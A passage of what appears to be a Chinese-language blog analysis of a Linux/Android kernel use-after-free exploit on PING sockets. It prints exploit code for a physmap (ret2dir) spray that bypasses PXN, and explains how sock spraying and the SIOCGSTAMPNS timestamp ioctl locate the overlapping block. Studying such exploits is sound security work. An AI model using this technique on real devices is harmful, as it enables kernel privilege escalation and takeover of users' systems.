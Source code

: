 ```
        info leak trick mentioned in Xu Wen's paper, a magic value will be read in sock_get_timestampns
        ROM:FFFFFFC000360B30                 LDR             X0, [X19,#0x1D8]           ;X19 points to aligned-page controlled by attacker
        ROM:FFFFFFC000360B34                 BL              ns_to_timespec
      */
      *(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;
      /*ret = mlock(mapped_page, PAGE_SIZE);
      if(-1 == ret)
      {
          perror("[*] lock the mapped page fail");
          return -1;
      }*/

      physmap_spray_pages[physmap_spray_pages_count]  =  mapped_page;
      physmap_spray_pages_count++;
  }
  return 0;
}


printf("[*] physmap spray begin.\n");
  	memset(physmap_spray_pages,    0,   sizeof(physmap_spray_pages));
	memset(physmap_spray_children, 0, 	sizeof(physmap_spray_children));
  	physmap_spray_pages_count   =  0;
	for(i=0; i<MAX_PHYSMAP_SPRAY_PROCESS; i++)
	{
		
	    if(-1 == spray_nofork(MAX_PHYSMAP_SIZE))
	    {
	      printf("[*] physmap spray fail.\n");
	      return -1;
	    }
	}

	  printf("[*] physmap spray done.\n");

```

，在内核 3.4 上，已经存在 pxn, 还没有 kaslr, 为了绕过 pxn. 作者主要使用了 ret2dir(physmap spray) 方法

在内核中 physmap 在一个相对较高的地址，而 SLAB 通常在一个相对较低的地址，通过喷射其它的内核对象使得 SLAB 分配器在相对高的地址分配 PING sock 对象造成 physmap 和 SLAB 重叠，这个过程叫做 lifting。这里的 “其它的内核对象” 直接用 PING sock 对象其实就可以（这就是申请如此多的 socket 原因，通过大量喷射 sock, 使得 lifting, 导致 sock 的块与我们 physmap 的块重叠）

![](https://img-blog.csdnimg.cn/1b3b1da6c902411e9d2e0c844adeb092.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_15,color_FFFFFF,t_70,g_se,x_16#pic_center)

那么如何才能找到 physmap 与 uaf 重叠的块呢？

这里主要利用了 timespec 结构体，ioctl(exp_sock, SIOCGSTAMPNS, &`time`); 会调用到 sock_get_timestampns

```
int sock_get_timestampns(struct sock *sk, struct timespec __user *userstamp)
{
    struct timespec ts;
    if (!sock_flag(sk, SOCK_TIMESTAMP))
        sock_enable_timestamp(sk, SOCK_TIMESTAMP);
    ts = ktime_to_timespec(sk->sk_stamp);
    if (ts.tv_sec == -1)
        return -ENOENT;
    if (ts.tv_sec == 0) {
        sk->sk_stamp = ktime_get_real();
        ts = ktime_to_timespec(sk->sk_stamp);
    }
    return copy_to_user(userstamp, &ts, sizeof(ts)) ? -EFAULT : 0;
```